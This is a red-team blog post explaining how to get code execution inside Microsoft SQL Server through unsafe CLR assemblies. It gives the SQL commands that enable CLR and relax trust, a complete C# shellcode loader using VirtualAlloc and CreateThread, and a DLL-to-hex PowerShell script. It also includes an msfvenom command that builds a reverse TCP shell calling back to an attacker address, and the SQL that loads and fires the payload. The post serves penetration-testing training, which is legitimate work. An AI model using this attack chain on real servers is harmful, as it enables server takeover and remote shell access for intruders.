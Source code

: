 ```yaml
---
layout: post
title: "Using MSSQL CLR Assembly for Code Execution"
subtitle: "Shellcode execution from inside SQL Server via unsafe CLR"
date: 2025-01-13
categories: [security-research, red-teaming]
tags: [MSSQL, CLR, shellcode, Windows]
thumbnail-img: https://img001.prntscr.com/file/img001/iS6J0AZHRrioiL1LURYKDw.png
share-img: https://img001.prntscr.com/file/img001/iS6J0AZHRrioiL1LURYKDw.png
author: Ben Tamam
comments: false
readtime: true
share-title: "MSSQL CLR for Code Execution - Ben Tamam"
share-description: "Abusing unsafe CLR assemblies in SQL Server to load and run shellcode from the database process."
---
```


## Introduction

This article walks you through how to achieve arbitrary code execution in Microsoft SQL Server (MSSQL) by leveraging custom CLR assemblies. The technique involves compiling a .NET assembly that can inject and execute shellcode directly from the SQL Server process.

This is a simplified version of a technique originally learned during the [PEN-300 OSEP](https://www.offsec.com/courses/pen-300/) course. Great credit goes to Offensive Security for their outstanding explanation of this method. The post is intended to make the process clearer and easier to follow for Red Team practitioners.

<!--more-->

---

## Environment Details

For this walkthrough, the following setup was used:

- **SQL Server Version**: SQL Server 2022 Developer Edition  
- **SQL Server Management Studio (SSMS)**: Latest version  
- **Operating System**: Windows 10 Pro (64-bit)

Here’s a quick look at my **SQL Server setup** after installation:

~~~sql
SQL Server Management Studio                                   20.2.30.0
SQL Server Management Objects (SMO)                             17.100.40.0+f57178c95d4376485d3f597f2b829bbd6f80fd6f
Microsoft T-SQL Parser                                          17.2.3.1+46115224c373754fdd41516eaae1386cabc4819e.46115224c373754fdd41516eaae1386cabc4819e
Microsoft Analysis Services Client Tools                         20.0.3.0
Microsoft Data SqlClient (MDS)                                   5.1.5
Microsoft SQL Server Data-Tier Application Framework (DacFX)    162.3.566.1+89d89fe935702c8836ebaf6a03cf61b85118f847.89d89fe935702c8836ebaf6a03cf61b85118f847
Microsoft .NET Framework                                         4.0.30319.42000
Operating System                                                 10.0.19045
~~~

---

## Why Use CLR Assemblies?

**Common Language Runtime (CLR)** in MSSQL allows you to run **custom .NET code directly inside the SQL Server process**.  
This provides a powerful method for **injecting shellcode** or executing **arbitrary payloads** in-memory, making it harder for traditional defenses to detect.

---

## Step 1: Enabling CLR Integration in MSSQL

Run the following in **SSMS** to enable CLR and relax trust (lab/demo only):

~~~sql
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE;
GO
ALTER DATABASE master SET TRUSTWORTHY ON;
GO
~~~

---

## Step 2: Creating the CLR Assembly

We’ll create a **.NET assembly** that allocates memory, copies shellcode, and executes it via **Win32 APIs**.

### Open Visual Studio

- Create **SQL Server Database Project**.
- Enable *Generate Script (.sql)* to auto-create a deploy script.  
  ![VS](https://img001.prntscr.com/file/img001/iS6J0AZHRrioiL1LURYKDw.png){: width="900" }
  ![Prop](https://img001.prntscr.com/file/img001/1mYYmsoPQla8uxbbN1gGlg.png){: width="900" }
- Set **SQLCLR** property to **Unsafe**.  
  ![SQLCLR Unsafe](https://img001.prntscr.com/file/img001/TOm9O0MRT9yPzCB8wOzQyA.png){: width="900" }

### Add a New SQL CLR Stored Procedure

- Solution Explorer → **Add → New Item**
- **SQL CLR C# Stored Procedure** (e.g., `SqlStoredProcedure1.cs`)

### Shellcode Loader in C#

> Demo loader for educational/lab use only.

~~~csharp
using System;
using Microsoft.SqlServer.Server;
using System.Runtime.InteropServices;

public partial class StoredProcedures
{
    [SqlProcedure]
    public static void ShellcodeLoader(string sc)
    {
        SqlContext.Pipe.Send(ShellcodeExec(sc));
    }

    public static string ShellcodeExec(string sc)
    {
        byte[] shellcode = ConvertHexToByteArray(sc);
        UInt64 addr = VirtualAlloc(0, (UInt64)shellcode.Length, 0x1000, 0x40);
        Marshal.Copy(shellcode, 0, (IntPtr)addr, shellcode.Length);
        CreateThread(0, 0, addr, 0, 0, 0);
        return "";
    }

    private static byte[] ConvertHexToByteArray(string hex)
    {
        byte[] bytes = new byte[hex.Length / 2];
        for (int i = 0; i < bytes.Length; i++)
            bytes[i] = Convert.ToByte(hex.Substring(i * 2, 2), 16);
        return bytes;
    }

    [DllImport("kernel32")]
    private static extern UInt64 VirtualAlloc(UInt64 lpAddress, UInt64 dwSize,
        UInt64 flAllocationType, UInt64 flProtect);

    [DllImport("kernel32")]
    private static extern UInt32 CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize,
        UInt64 lpStartAddress, UInt32 lpParameter, UInt32 dwCreationFlags, UInt32 lpThreadId);
}
~~~

---

## Step 3: Compiling the Assembly

![Build](https://img001.prntscr.com/file/img001/yLx3BQHsQ3iKcYpAyfwBOA.png){: width="900" }

### Converting DLL to Hex

~~~powershell
# Path to your DLL file
$assemblyFile = "C:\Users\DevHost\source\repos\SQLSampleSC\SQLSampleSC\bin\Release\SQLSampleSC.dll"

# StringBuilder for efficient hex concat
$stringBuilder = New-Object System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)

# Convert each byte to two-character hex
while (($b = $fileStream.ReadByte()) -gt -1) {
  $null = $stringBuilder.Append($b.ToString("X2"))
}

# Save one-line hex with 0x prefix
("0x{0}" -f $stringBuilder.ToString()) |
  Out-File -FilePath "C:\Users\DevHost\Desktop\sql.txt"

# Preview
type C:\Users\DevHost\Desktop\sql.txt
# 4D5A90000300000004000000FFFF0000B8000000000...
~~~

### Generating Shellcode

~~~bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.69 LPORT=443 -f hex
# Payload size: 460 bytes
# Final size of hex file: 920 bytes
# fc4883e4f0e8c0000000415141...
~~~

### Executing the Shellcode via SQL

~~~sql
CREATE ASSEMBLY MSSQL_ShellCodeLoader
FROM 0x...<HEX format of DLL>
WITH PERMISSION_SET = UNSAFE;
GO

CREATE PROCEDURE shellcode_loader
  @sc NVARCHAR(MAX)
AS EXTERNAL NAME MSSQL_ShellCodeLoader.StoredProcedures.ShellcodeLoader;
GO

DECLARE @shellcode NVARCHAR(MAX) = '<HEX format of Shellcode>';
EXEC shellcode_loader @shellcode;
~~~

Once executed, you should see your shellcode run successfully.

![SCEXEC](https://img001.prntscr.com/file/img001/3CkFJIEuQDiZcp4Bv3VMnA.png){: width="900" }
